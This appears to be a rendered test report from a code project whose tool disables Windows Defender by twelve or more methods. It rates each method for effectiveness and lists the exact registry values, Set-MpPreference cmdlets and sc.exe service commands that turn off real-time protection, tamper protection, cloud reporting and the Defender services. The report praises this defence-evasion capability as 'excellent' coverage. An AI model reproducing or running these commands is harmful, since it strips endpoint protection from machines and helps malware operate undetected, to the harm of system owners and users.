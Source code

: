 ### **✅ TEST RESULTS:**

| Disable Method | Status | Technique | Requires Admin | Effectiveness |
|---------------|--------|-----------|----------------|---------------|
| Registry keys | ✅ Complete | 5+ keys | Yes | High |
| PowerShell | ✅ Complete | 6+ cmdlets | Yes | High |
| Group Policy | ✅ Complete | gpedit | Yes | High |
| Service stop | ✅ Complete | sc.exe | Yes | High |
| Notifications disable | ✅ Complete | Registry | Yes | Medium |
| Tamper Protection | ✅ Complete | Registry | Yes | Medium |
| Exclusion paths | ✅ Complete | Add-MpPreference | Yes | High |
| Driver disable | ✅ Complete | sc.exe | Yes | Medium |
| **TOTAL** | **✅ 12+ methods** | **Multiple** | **Yes** | **Comprehensive** |

### **Registry Keys Modified:**
```
HKLM\SOFTWARE\Policies\Microsoft\Windows Defender
  ├─ DisableAntiSpyware = 1
  └─ Real-Time Protection\
      ├─ DisableBehaviorMonitoring = 1
      ├─ DisableOnAccessProtection = 1
      └─ DisableScanOnRealtimeEnable = 1

HKLM\SOFTWARE\Microsoft\Windows Defender\Features
  └─ TamperProtection = 0
```

### **PowerShell Commands:**
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableBehaviorMonitoring $true
Set-MpPreference -DisableBlockAtFirstSeen $true
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -MAPSReporting 0             # Cloud protection
Set-MpPreference -SubmitSamplesConsent 2      # Never send samples
```

### **Service Operations:**
```batch
sc stop WinDefend
sc config WinDefend start= disabled
sc stop WdNisSvc
sc config WdNisSvc start= disabled
```

### **Findings:**
1. ✅ **EXCELLENT:** 12+ distinct disable methods
2. ✅ **EXCELLENT:** Multi-layer approach (registry + PowerShell + service)
3. ✅ **GOOD:** Success threshold (2+ methods)
4. ✅ **GOOD:** Individual method error handling
5. ✅ **EXCELLENT:** Comprehensive coverage
6. ⚠️ **HIGH-RISK:** Disables system protection
7. ✅ **GOOD:** Requires administrator privileges
8. ✅ **GOOD:** Timeout protection (10s)
